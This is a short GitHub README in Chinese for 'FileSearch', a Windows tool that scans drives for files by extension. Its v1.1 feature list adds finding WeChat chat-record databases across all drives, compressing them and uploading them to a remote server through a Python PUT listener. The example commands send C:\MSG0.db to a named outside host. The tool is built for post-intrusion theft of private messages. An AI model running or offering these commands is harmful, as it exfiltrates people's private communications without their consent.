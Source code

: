 # FileSearch

## 更新
### v1.1
服务端：python2 http_put.py 80 path 
（win10自带curl.exe，其他系统可以上传一个或者引用c++第三方库）
1、新增全盘查找微信聊天记录db文件并压缩上传到指定服务器
2、压缩本地文件并上传到指定服务器
3、指定盘查找指定文件后缀并输出
```
[+] eg: Filesearch default baidu.com
[+] eg: Filesearch upload C:\MSG0.db baidu.com
[+] eg: Filesearch search C:\ docx

```
## v1.0

```
System Drive are:C:\D:\
Command:FileSearch.exe Drive Keyword
Example:FileSearch.exe C:\ docx
```

![](https://cdn.nlark.com/yuque/0/2020/png/262397/1598583458455-d71cecb3-ef4e-49de-b33e-fe81c55c012b.png)